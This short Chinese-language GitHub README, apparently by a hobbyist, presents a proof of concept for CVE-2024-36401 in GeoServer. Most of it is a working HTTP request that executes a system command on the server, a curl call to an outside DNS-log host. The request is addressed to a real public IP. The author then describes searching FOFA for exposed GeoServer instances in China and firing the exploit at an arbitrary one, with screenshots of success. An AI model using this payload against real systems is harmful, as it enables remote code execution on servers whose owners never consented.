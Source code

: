 # CVE-2024-36401

<br>

### 挖到了人生第一个洞,记一下过程

<br>

### poc展示

````

POST /geoserver/wfs HTTP/1.1
Host: 124.221.193.109:9090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 123.123.123.123
Content-Length: 355

<wfs:GetPropertyValue service='WFS' version='2.0.0'
xmlns:topp='http://www.openplans.org/topp'
xmlns:fes='http://www.opengis.net/fes/2.0'
xmlns:wfs='http://www.opengis.net/wfs/2.0'>
<wfs:Query typeNames='sf:archsites'/>
<wfs:valueReference>
	exec(java.lang.Runtime.getRuntime(),'curl 5uzglt.dnslog.cn') </wfs:valueReference>
</wfs:GetPropertyValue>

````

<br>

## 过程

去fofa上搜索相关资产

````
app="GeoServer" && country="CN"
````
然后随便找一个网址，直接上POC即可

<img src="https://54huarui.github.io/blogs/geo/2.png" width="880" height="480">

<br>

成功图示


<img src="https://54huarui.github.io/blogs/geo/1.png" width="880" height="480">

网上很多文章的POC都是错的，这里应该以这个为准